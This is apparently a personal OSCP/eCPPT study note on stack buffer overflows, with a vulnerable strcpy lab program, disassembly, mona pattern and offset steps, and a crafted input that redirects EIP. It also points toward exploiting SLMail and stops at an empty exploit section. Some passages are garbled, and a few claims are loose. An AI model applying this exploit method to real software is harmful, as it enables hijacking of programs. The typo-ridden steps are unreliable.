


# know how overflow oscp ecppt

## example


Suppose your last name is OTAVALI (7 characters). Refusing to truncate your name, you write all seven characters.


Suppose the computer allocates a buffer of 40 bytes of memory to store 10 integers (4 bytes per integer)

An attaker sends the computer 11 integers (a total of 44 bytes) as input.


Whatever was in the location after the ten 40 bytes (allocated for our buffer), gets overwritten with the 11th integer of our input.

Remember that the stack grows backgward. Therefore the data in the buffer are copied from lowest memory addresses to highest memory addresses.


now for some fun creating our own buffer overflows with real examples of vulnerable code.

As usual, we are going to build up to more complex examles and concepts slowly.

```c
int main (int argc, char** argv)
{
  argv[1]=(char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; //35
  char bufferþ[10];
  strcpy(buffer, argv[1]);
}
```

**Code boservation**

- The array of characters (buffer) is 10 bytes long.
- The code uses the function strcpy

**Code Task**

Try to copy more data than the buffer can handle, using strcpy

**Outcome**

We can see that argv[1] contains 35 A characters, while the buffer can handly only 10. When the program runs, the exceeding data has to go somewhere, and it will overwrite something in the memory: this is a buffer overflow.

**Code Outcome**
Program crashes

**Post Evaluation**

The vulnerable function is strcpy

If argv[1], is bigger than the destination, buffer an overflow occurs.

**In this case the program crash but you can control of the program flow**

**Resolution**

There is a safe version of the strcpy function, and it is called strncpy (notice the n in the function name). With this knowledge, we can say thata safe implementation of the previous program would be something like this:

```c
int main (int argc, char** argv)
{
  argv[1]=(char*)"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"; //35
  char buffer[10];
  strncpy(buffer, argv[1], sizeof(buffer)); //function
  retrun 0;
}
```

There will be no overflow because the data we ban copy is limit to 10 bytes.


The following is the new stack frame process review:

- push the function parameters
- call the function
- execute the prologue (wich updates EBP and ESP to create the new stack frame)
- Allocate local variable


when the strcpy function gets executed, it starts copying our input into the memory address allocated for buffer[10]. Since there is not enough space, our input will be copied in the next memory address and will continue to fill memory addresses until there is no more input.

While this is happening, it will also be overwriting all the data in those memory locations and causing the overflow.

What is getting overwritten? This data includes the ebp, the eip and all the other bytes related to the previous stack frame.

Therefore, at the end of the strcpy instructions, our stack will look like the following:


EBP is the base pointer
EIP is the instruction pointer

**What can i do in this case?**

Since the EIP has benn overwritten with AAAA, once the epilogue takes place, the program will try to return to a completely wrong address. Remember that the EIP points to the next instruction. An attacker can craft the payload in the inputo of the program to get the control of the program flow and return the function to a specific memory address location. This is where it is important to know memory addresses of certain registers.


## example view goodpwd.cpp

```cpp
#include <iostream> 
#include <cstring>
 
int bf_overflow(char *str){ 
       char buffer[10]; 	//our buffer 
       strcpy(buffer,str);	//the vulnerable command 
       return 0; 
} 
 
int good_password(){ 		// a function which is never executed
       printf("Valid password supplied\n"); 
       printf("This is good_password function \n"); 
}
 
int main(int argc, char *argv[]) 
{ 
       int password=0; // controls whether password is valid or not 
       printf("You are in goodpwd.exe now\n"); 
       bf_overflow(argv[1]); //call the function and pass user input 
       if ( password == 1) { 
             good_password(); //this should never happen  
 }
 	 else {
       printf("Invalid Password!!!\n");
 } 
       printf("Quitting sample1.exe\n"); 
       return 0; 
} 

```


**Program objetives**

Run the function good_password

**Code Observation**

- The function good_password is never executed (why?)
- Because the variable password is set to 0 in the first instruction of the main.
- The function bf_overflow contains the vulnerable function that will cause buffer overflow.

**Goal**

- Our golas is to find a way to call the good_password function 
- force program to print valid password supplied

**execute program**


**Test 1**

See if the application is vulnerable to buffer overflow by providing a long input.

The program Crash. ist vulnerable.This means that we have overwritten the EIP with our input, causing the overflow. 


The next step , we would like take control of the program and execute good_password function. The idea its forces the program jump into the memory address function.

**Desassemble the program**

```bash
objdump -d -Mintel goodpwd.exe > goodpwd_dissasembled.txt


00401529 <__Z11bf_overflowPc>:
  401529:	55                   	push   ebp
  40152a:	89 e5                	mov    ebp,esp
  40152c:	83 ec 28             	sub    esp,0x28
  40152f:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
  401532:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
  401536:	8d 45 ee             	lea    eax,[ebp-0x12]
  401539:	89 04 24             	mov    DWORD PTR [esp],eax
  40153c:	e8 17 84 01 00       	call   419958 <_strcpy>
  401541:	b8 00 00 00 00       	mov    eax,0x0
  401546:	c9                   	leave  
  401547:	c3                   	ret    

00401548 <__Z13good_passwordv>:
  401548:	55                   	push   ebp
  401549:	89 e5                	mov    ebp,esp
  40154b:	83 ec 18             	sub    esp,0x18
  40154e:	c7 04 24 00 80 48 00 	mov    DWORD PTR [esp],0x488000
  401555:	e8 a6 ff ff ff       	call   401500 <__ZL6printfPKcz>
  40155a:	c7 04 24 1c 80 48 00 	mov    DWORD PTR [esp],0x48801c
  401561:	e8 9a ff ff ff       	call   401500 <__ZL6printfPKcz>
  401566:	c9                   	leave  
  401567:	c3                   	ret    
 


```
**STEP 2**
Scroll down and find the function good_password or other in the program.

- Memory address overflow 401529
- Memory address good_password 401548

- now we need search EIP address in the stack frame

EIP its the instruction pointer, it points to the next instruction to be executed.


**TEST 2**

For find EIP we need obtain just number of characters to overflow

If its 32 bits using ABCD
If its 64 bits using ABCDEFGH

You need try many timest to find the number of characters to overflow adding A in the begining of the input.


At a certain point, we will trigger the bufer overflow causing the program to crash



ABCD is overwriting the correct EIP in the stack. The result of EIP in this case its 0X44434241 that its ABCD but in reverse order.

A -->0x41

B -->0x42

C -->0x43

D -->0x44




Basically we need to fill the first 22 bytes (local vars + EBP), with junk data (NOP's), rewrite the EIP and the insert the sell code


**STEP 3**

Put the memory address of the function good_password in the EIP

Memory address good_password 401548

0x00 --> For position of D

0x40 --> For Position of C

0x15 --> For Position of B

0x48 --> For Position of A

Important!! Since the command prompt does not allow us to supply hexadecimal data as an argument, we will need a application to exploit the program.

if we use the bufferoverflow and change ABCD for function good_password address the number of characters now if 22 and then put the EIP Address

00hex to ascci is 0 (null)

40hex to ascci is @

15hex to ascci is 

48hex to ascci is H

1. We dont use 0 and we need put in order inverse 

2. 14 A + 8 from ABCD (EIP) = 22
   22 A + address
  
  1234567890123456789012H@


### know how overflow unsafe operations 

There are very more but its this a examples

- strcpy
- strcat
- gets/fgets
- sanf/fsacnf
- vsprintf
- printf
- memcpy

## know how overflow finding big programs

All the interperted languages such as c#, visual basic, .net, java, etc. Are safe from such vulnerabilities.

Moreover, buffer overflows can be triggered by any of the following buffer operations:

- user input
- data loaded from a disk
- data from the network

As yo can imagine, if we want to manually find a buffer overflow in a large application, it may be difficult and time-consuming.

However, we will document some of the techniques that make this process easier , such as:

- If you are the developer of the sofware and you have acess to the souce code, such as static analysis tools such as splint ([splint](http://www.splint.org/), [cppcheck](http://cppcheck.sourceforge.net/), etc), such tools will try to detect not only buffer overflows but also some other types of errors.

Other tecniques are the following:

- When a crash occurs, be prepared to hunt for the vulnerability with a debugger (the most efficient and well know technique). Some companies use cloud-fuzzing to brute-force crashing (using file-based input). Whenever a crash is found, it is recorded for further analysis.

- A dynamic analysis tool like a fuzzer or tracer, wich tracks all executions and the data flow, help in finding problems.

- All the above techniques can give you a big number of vulnerabilities (such as overflows, negative indexing of an array and so on) , but the problem lies in exploiting the vulnerability.

- A large numer of vulnerabilities are un-exploitable. Almost 50% of vulnerabilities are not exploitable at all, but they may lead to DOS (denial of service attacks) or cause other side-effects.

know how test programs for buffer overflows
- using fuzzing for force a :
  - memory hogging
  - cpu hogging
  - crashing


## Exploiting overflow

### using mona with debug

1. open immunity debugger
2. open the binary
3. put the next code bottom of immunity

```bash
!mona config -set workingfolder C:\ImmunityLogs\%p
```

4. create pattern 100

```bash
!mona pc 100

c:\ImmunityLogs\


Pattern of 100 bytes :
----------------------

ASCII:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

HEX:
\x41\x61\x30\x41\x61\x31\x41\x61\x32\x41\x61\x33\x41\x61\x34\x41\x61\x35\x41\x61\x36\x41\x61\x37\x41\x61\x38\x41\x61\x39\x41\x62\x30\x41\x62\x31\x41\x62\x32\x41\x62\x33\x41\x62\x34\x41\x62\x35\x41\x62\x36\x41\x62\x37\x41\x62\x38\x41\x62\x39\x41\x63\x30\x41\x63\x31\x41\x63\x32\x41\x63\x33\x41\x63\x34\x41\x63\x35\x41\x63\x36\x41\x63\x37\x41\x63\x38\x41\x63\x39\x41\x64\x30\x41\x64\x31\x41\x64\x32\x41


JAVASCRIPT (unescape() friendly):
%u6141%u4130%u3161%u6141%u4132%u3361%u6141%u4134%u3561%u6141%u4136%u3761%u6141%u4138%u3961%u6241%u4130%u3162%u6241%u4132%u3362%u6241%u4134%u3562%u6241%u4136%u3762%u6241%u4138%u3962%u6341%u4130%u3163%u6341%u4132%u3363%u6341%u4134%u3563%u6341%u4136%u3763%u6341%u4138%u3963%u6441%u4130%u3164%u6441%u4132

```

5. add argument with the ascii pattern
6. restart and play


**- We have EIP for the overflow --> 61413761**

7. Use the following code with address for find the offset

```bash 
When you use mona log show de number of broke overflow

```bash

!mona po 61413761

```


- **The offset is 22 characters**


Add 22 characters to address
Memory address good_password 401548

40hex to ascci is @

15hex to ascci is 

48hex to ascci is H

AAAAAAAAAAAAAAAAAAAAAAH@


## Preparing env


1. View virtualbox know how and preparing windows machine
   
2. Install inmuniti debugger in windows

https://debugger.immunityinc.com/

3. download mona

need mv from administrator shell

copy mona.py in C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands


If you write !mona you can see the commands

3. With these, we can start

## Working

1. Since immunity debugger we can sync with slmail process

file--> attach slmail process


2. Play


3. Registers in windows 32


EIP --> next instruction to execute

1. first its a denial of service


## write exploit

pip install pwn
pip install socket
```python